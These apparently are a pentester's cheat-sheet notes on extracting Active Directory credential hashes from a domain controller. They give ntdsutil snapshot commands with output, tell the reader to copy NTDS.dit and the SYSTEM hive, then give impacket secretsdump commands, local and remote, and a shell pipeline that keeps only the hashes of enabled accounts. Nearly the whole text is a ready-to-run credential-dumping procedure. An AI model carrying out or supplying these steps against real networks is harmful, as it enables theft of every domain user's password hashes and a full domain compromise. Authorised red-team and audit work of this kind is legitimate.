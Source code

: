 ### Local DC

C:\Windows\system32>C:

C:\Windows\system32>cd ..
C:\Windows>cd ..

C:\>cd Users	

C:\Users>cd <admin_user>

Change into your admin user directory.

C:\Users\nta007>**ntdsutil**

ntdsutil: **activate instance ntds**

Active instance set to "ntds".

ntdsutil: **snapshot**

snapshot: **create**

Creating snapshot...

Snapshot set {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3} generated successfully.

snapshot: **mount {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3}**

```
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} mounted as C:\$SNAP_201801091253_VOLUMED$\
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} mounted as C:\$SNAP_201801091253_VOLUMEC$\
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} mounted as C:\$SNAP_201801091253_VOLUMEE$\
```

Grab your bits here!

snapshot: **delete {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3}**
```
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} unmounted.
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} deleted.
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} unmounted.
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} deleted.
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} unmounted.
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} deleted.
```

snapshot: **quit**

ntdsutil: **quit**

C:\Users\nta007>




GET THE SYSTEM FILE ASWELL (WINDOWS SYSTEM32 CONFIG)
C:\Windows\System32\Config
SYSTEM
NTDS - in the windows folder

### Remote
impacket-secretsdump -just-dc-ntlm FQDN/DA-account@DC-IP

***New commands*** (python3.9)
```
/usr/share/doc/python3-impacket/examples/secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash -user-status -outputfile <filename> local

cat hashes | grep -v "$:" | grep "status=Enabled" | cut -d'\' -f2 | cut -d"(" -f1 # < for getting just the hashes
```
